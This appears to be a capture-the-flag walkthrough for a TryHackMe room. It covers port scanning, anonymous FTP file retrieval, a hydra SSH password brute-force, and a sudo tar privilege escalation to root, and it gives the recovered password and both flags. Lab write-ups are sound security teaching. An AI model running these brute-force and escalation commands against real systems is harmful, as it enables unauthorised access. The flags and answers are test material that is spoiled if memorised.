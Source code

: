 # Bounty_Hunter_THM

1) Find open ports on the machine
    nmap -A -sV -O -T4 <IP> nmap 
  
2) Who wrote the task list?
    Using nmap we can see that ftp is open so we can connect to that: ftp@<IP>
    We then need to login as a user: anonymous
    Using ls we find to file, locks.txt and task.txt
    To view it we need to download to our directory: get task.txt, get locks.txt
    Back in our directory we see we now have both files
    Let's print out the contents of the files: cat task.txt
    Looking at the contents of the file of task.txt we see 2 task written by user lin. We now have a user to use
                                               1.) Protect Vicious.
                                               2.) Plan for Red Eye pickup on the moon.

                                               -lin
  
3) What service can you bruteforce with the text file found?
    ssh
  
4) What is the users password? 
    Printing out the contents of locks.txt we get a list of passwords
    Now with a user and a list of passwords we can use hydra to login with ssh
    hydra -t 16 -l lin -P locks.txt -vV <IP> ssh 
    We get the password RedDr4gonSynd1cat3
  
5) user.txt
    Find the user.txt: find /home -name user.txt
    The file is in /home/lin/Desktop/user.txt
    Let's go over there and print to contents: We get THM{CR1M3_SyNd1C4T3}
 
6) root.txt
    We see that we don't have permission to root
    We can check of lin has any sudo commands she can run: sudo -l
    Lin can run /bin/tar as root
    Move over to /bin
    Using GTFOBins we can elevate our privilege: https://gtfobins.github.io/gtfobins/tar/ : sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    Now that we have root we can get root.txt: THM{80UN7Y_h4cK3r}
    
    
  

    
    

